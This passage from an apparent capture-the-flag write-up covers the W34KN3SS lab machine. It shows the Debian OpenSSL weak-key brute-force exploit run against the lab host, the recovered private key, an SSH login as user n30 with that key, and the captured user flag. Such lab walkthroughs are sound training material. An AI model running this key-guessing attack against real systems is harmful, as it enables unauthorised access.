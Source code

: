 		┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit/openssl-0.9.8c-1]
		└─# python 5720.py rsa/2048/ 192.168.236.9 n30 22 5

		-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
		Tested 202 keys | Remaining 32566 keys | Aprox. Speed 40/sec

		Key Found in file: 4161de56829de2fe64b9055711f531c1-2537
		Execute: ssh -ln30 -p22 -i rsa/2048//4161de56829de2fe64b9055711f531c1-2537 192.168.236.9

		Tested 280 keys | Remaining 32488 keys | Aprox. Speed 15/sec
		```
	- Found key `4161de56829de2fe64b9055711f531c1-2537`
	![](images/Pasted%20image%2020220124202456.png)
## TCP/22 - SSH 
1. SSH w/ `4161de56829de2fe64b9055711f531c1-2537`
	```
	┌──(root💀kali)-[~/vulnHub/W34KN3SS/192.168.236.9/exploit/openssl-0.9.8c-1]
	└─# ssh -p22 -i rsa/2048//4161de56829de2fe64b9055711f531c1-2537 n30@$ip
	Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

	Last login: Tue Aug 14 13:29:20 2018 from 192.168.209.1
	n30@W34KN3SS:~$ 
	```
	![](images/Pasted%20image%2020220124202535.png)
2. User Flag
	```
	n30@W34KN3SS:~$ cat user.txt 
	25e3cd678875b601425c9356c8039f68
	n30@W34KN3SS:~$ 
	```
	![](images/Pasted%20image%2020220124202640.png)
